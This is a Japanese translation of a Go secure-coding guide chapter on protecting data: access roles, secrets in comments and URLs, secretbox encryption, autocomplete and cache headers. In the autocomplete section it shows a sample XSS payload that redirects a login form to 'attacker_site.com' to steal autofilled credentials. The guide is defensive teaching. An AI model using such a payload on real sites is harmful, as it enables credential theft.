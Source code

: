 データの保護
===============

現在、データの保護はセキュリティ全般で最も重要なことの1つです。
以下のようになってしまったら困りますよね。

![All your data are belong to us](files/cB52MA.jpeg)

Webアプリケーションのデータは保護される必要があります。そのため、このセクションではデータを保護するさまざまな方法について見ていきます。

最初に取り組むべきことの1つは、ユーザーそれぞれに対して適切な権限を実装し、本当に必要な機能だけにアクセスを制限することです。

例えば、次のようなユーザー・ロールを持つ単純なオンライン・ストアを考えてみましょう。

* セールスユーザー: カタログの閲覧のみ許可
* マーケティングユーザー: 統計情報の確認が可能
* 開発者: ページとウェブアプリケーションの設定変更を許可する

また、システム（ウェブサーバー）構成において、正しいパーミッションを定義するべきです。

最初にやるべきことは各ユーザーに適切なロールを定義することです。

役割の分離とアクセス制御については、さらに、[アクセス制御][5]で説明します。

## 機密情報の削除

機密情報を含む一時ファイルやキャッシュファイルは、不要になり次第すぐに削除しましょう。
まだ必要な場合は、保護された場所に移動させるか、暗号化しましょう。

### コメント

開発者がソースコードに Todo リストのようなコメントを残すことがあります。
最悪の場合、開発者がクレデンシャルを残すこともあります。

```go
// Secret API endpoint - /api/mytoken?callback=myToken
fmt.Println("Just a random code")
```

上記の例では、開発者がコメント内にエンドポイントの情報を残しています。このエンドポイントが守られていない場合、悪意あるユーザーに利用されてしまうかもしれません。

### URL

HTTP GET メソッドで機密情報を渡すことは、次のような理由でウェブアプリケーションの脆弱性を残すことになります。

1. HTTPS を使用していない場合、MITM 攻撃によりデータを傍受される可能性があります。
2. ブラウザの履歴には、ユーザーの情報が保存されています。URL に
   セッション ID、ピン、トークンなど、有効期限のない（あるいはエントロピーの低い）ものが含まれていると、それらを盗まれる可能性があります。
3. 検索エンジンは、ページ内で発見されたURLを保存する
4. HTTP サーバー（例：Apache、Nginx）は、通常、要求された URL を、クエリ文字列を含めて、暗号化されていない状態でログファイル (例: `access_log`) に書き込みます。

```go
req, _ := http.NewRequest("GET", "http://mycompany.com/api/mytoken?api_key=000s3cr3t000", nil)
```

ウェブアプリケーションが `api_key` を使って、第三者のウェブサイトから情報を取得しようとした場合に、もしも同一のネットワーク内で誰かが盗聴していたら、もしくはプロキシを使っていたとしたら、その情報は盗まれるかもしれません。これは HTTPS を使っていないためです。

GET で渡されたパラメータ(クエリストリング)は、HTTP と HTTPS のどちらを使用しているかに関係なく、ブラウザの履歴やサーバーのアクセスログに綺麗に残ることに注意してください。

HTTPS は、クライアントとサーバー以外の第三者が、やり取りしたデータを取得できないようにするための方法です。
`api_key` のような機密データは、可能な限りリクエストボディか何らかのヘッダに格納する必要があります。同様に、可能な限り一回限りのセッション ID やトークンを使用します。

### 情報は力なり

本番環境上のアプリケーションやシステムのドキュメントは常に削除しましょう。
ドキュメントによっては、ウェブアプリケーションを攻撃するために使われる可能性のあるバージョンや機能を明かしてしまうかもしれません。
(例: Readme, Changelog, etc.)

開発者は、ユーザーが使わなくなった機密情報を削除できるようにすべきです。
例えば、ユーザーが自分のアカウントの期限切れのクレジットカードを削除したい場合、ウェブアプリケーションはそれを許可すべきです。

不要になった情報は、すべてアプリケーションから削除しなければなりません。

#### 暗号化がカギ

機密性の高い情報は全てウェブアプリケーション内で暗号化する必要があります。
軍用レベルの [Go で利用可能な暗号化][2] を使用してください。詳細については
[暗号に関するプラクティス][3]のセクションを参照してください。

あなたのコードを他の場所に実装する必要がある場合は、バイナリをビルドして共有してください。リバースエンジニアリングを防ぐ安心安全な術はないためです。

コードにアクセスするための異なるパーミッションを用意し、ソースコードへのアクセスを制限することは最良の方法です。

パスワードや接続文字列、平文やセキュリティ的に不十分な形式の機密情報をクライアント側とサーバー側の両方で保存しないでください。（データベース接続文字列を保護する方法については、[データベースセキュリティ][4]の例を参照してください）。
安全でない形式（例えば、Adobe Flashやコンパイルされたコード）での埋め込みも含みます。

以下は、外部パッケージを使ってGoで暗号化するシンプルな例です。
`golang.org/x/crypto/nacl/secretbox`:

```go
// Load your secret key from a safe place and reuse it across multiple
// Seal calls. (Obviously don't use this example key for anything
// real.) If you want to convert a passphrase to a key, use a suitable
// package like bcrypt or scrypt.
secretKeyBytes, err := hex.DecodeString("6368616e676520746869732070617373776f726420746f206120736563726574")
if err != nil {
    panic(err)
}

var secretKey [32]byte
copy(secretKey[:], secretKeyBytes)

// You must use a different nonce for each message you encrypt with the
// same key. Since the nonce here is 192 bits long, a random value
// provides a sufficiently small probability of repeats.
var nonce [24]byte
if _, err := rand.Read(nonce[:]); err != nil {
    panic(err)
}

// This encrypts "hello world" and appends the result to the nonce.
encrypted := secretbox.Seal(nonce[:], []byte("hello world"), &nonce, &secretKey)

// When you decrypt, you must use the same nonce and key you used to
// encrypt the message. One way to achieve this is to store the nonce
// alongside the encrypted message. Above, we stored the nonce in the first
// 24 bytes of the encrypted text.
var decryptNonce [24]byte
copy(decryptNonce[:], encrypted[:24])
decrypted, ok := secretbox.Open([]byte{}, encrypted[24:], &decryptNonce, &secretKey)
if !ok {
    panic("decryption error")
}

fmt.Println(string(decrypted))
```

出力は以下です。

```
hello world
```

## 不要なものは無効にする

攻撃ベクトルを減らすためのもう一つの簡単で効率的な方法は、システム上で不要なアプリケーションやサービスを無効にすることです。

### オートコンプリート

[Mozilla のドキュメント][1]によると、次のようにしてフォーム全体のオートコンプリートを無効にできます。


```html
<form method="post" action="/form" autocomplete="off">
```

特定のフォーム要素に対しては以下のようにします。

```html
<input type="text" id="cc" name="cc" autocomplete="off">
```

特に、ログインフォームのオートコンプリートを無効にする場合に便利です。ログインページに XSS ベクターが存在する場合を想像してみてください。
悪意のあるユーザが次のようなペイロードを作成した場合、

```javascript
window.setTimeout(function() {
  document.forms[0].action = 'http://attacker_site.com';
  document.forms[0].submit();
}
), 10000);
```

これは、オートコンプリートされたフォームフィールドを `attacker_site.com` に送信します。

### キャッシュ

機密情報を含むページのキャッシュ制御は無効にする必要があります。
次のスニペットに示すように、対応するヘッダーフラグを設定することで実現できます。

```go
w.Header().Set("Cache-Control", "no-cache, no-store")
w.Header().Set("Pragma", "no-cache")
```


`no-cache` 値は、キャッシュされた応答を使用する前にサーバーで再検証するよう、ブラウザに指示します。これはブラウザにキャッシュしないように指示するものではありません。
> 訳者注：ブラウザだけに言及してますが、CDN などのプロキシキャッシュも含みます。

一方、`no-store` 値はキャッシュを無効にするためのものです。
リクエストやレスポンスのいかなる部分も保存させません。

`Pragma` ヘッダーは HTTP/1.0 リクエストをサポートするために存在します。

[1]: https://developer.mozilla.org/en-US/docs/Web/Security/Securing_your_site/Turning_off_form_autocompletion
[2]: https://godoc.org/golang.org/x/crypto
[3]: ../cryptographic-practices/README.md
[4]: ../database-security/README.md
[5]: ../access-control/README.md